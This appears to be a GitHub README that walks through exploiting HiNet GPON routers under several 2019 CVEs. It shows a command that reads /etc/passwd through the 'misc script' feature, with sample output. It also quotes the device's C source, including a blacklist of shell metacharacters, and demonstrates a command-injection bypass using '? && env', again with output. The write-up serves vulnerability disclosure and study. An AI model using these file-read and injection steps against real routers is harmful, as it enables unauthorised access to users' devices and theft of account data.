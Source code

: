 ## Covering HiNet GPON RCE from Orange Tsai
List of CVE :
* CVE-2019-13411
* CVE-2019-13412
* CVE-2019-15064
* CVE-2019-15065
* CVE-2019-15066

Btw orange just disclose the technique/walkthrough on CVE-2019-15065, CVE-2019-13411 and CVE-2019-13412!<br>
Rest of them i will try to explain with my little experience.<br>

### CVE-2019-15065 & CVE-2019-13412 (Arbitrary Read Files)
So basically there's a feature for execute shell script through files inside gpon machine. However if<br>
__the file is not__ a normal shell script, it will output the content with STDERR.
```bash
xxxx:xxx:xxx> misc script /etc/passwd
passwd> root:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> support:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> admin:x:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> user:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> ftp:*:95:95::/var/ftp:
Invalid command.
passwd> nobody:x:506:507:::
Invalid command.
passwd> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
Invalid command.
xxxx:xxx:xxx> 
```

### HiNET GPON on port 3097
Like other modem/router device, there's shortcut command for spawn help menu/list with command "?".<br>
This is snippet line of code that provide function for command "?" :
```c
  char * BLACKLISTS = "|<>(){}`;" ;                     // <--- blacklist char prevent command injection
  char *input = util_trim(s1);                          // <--- our input
  if (input[0] == '\0' || input[0] == '#')          
      return 0;

  while (SUB_COMMAND_LIST[i] != 0) {
      sub_cmd = SUB_COMMAND_LIST[i++];
      if (strncmp(input, sub_cmd, strlen(sub_cmd)) == 0)
          break;
  }
  
  if (SUB_COMMAND_LIST[i] == 0 && strchr(input, '?') == 0)
      return -10;
      
  // ...<snip>...
  
  while (BLACKLISTS[i] != 0) {
      if (strchr(input, BLACKLISTS[i]) != 0) {
          util_fdprintf(fd, "invalid char '%c' in command\n", BLACKLISTS[i]);   // prompt if blacklist char exist!
          return -1;
      }
      i++;
  }
  
  snprintf(file_buf,  64, "/tmp/tmpfile.%d.%06ld", getpid(), random() % 1000000);
  snprintf(cmd_buf, 1024, "/usr/bin/diag %s > %s 2>/dev/null", input, file_buf);
  system(cmd_buf);
```
As you can see, our input after "?" got parsed if contains blacklist char. To bypass it we can use char "&" :p<br>
![alt text](https://devco.re/assets/img/blog/20191111/7.png "Bypass with &")
```bash
xxxx:xxx:xxx> ? && env       # bypass parser :v
active=1
SHLVL=8
HOME=/
OLDPWD=/
TERM=vt102
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/etc/init.d:/etc/bin
SHELL=/bin/sh
PWD=/tmp
```

### HiNET GPON on port 6998
<pre>p0c not free, just kidding :p</pre>
<br>

##### Credits & Thx for :
* [@OrangeTsai](https://github.com/chjj/marked)
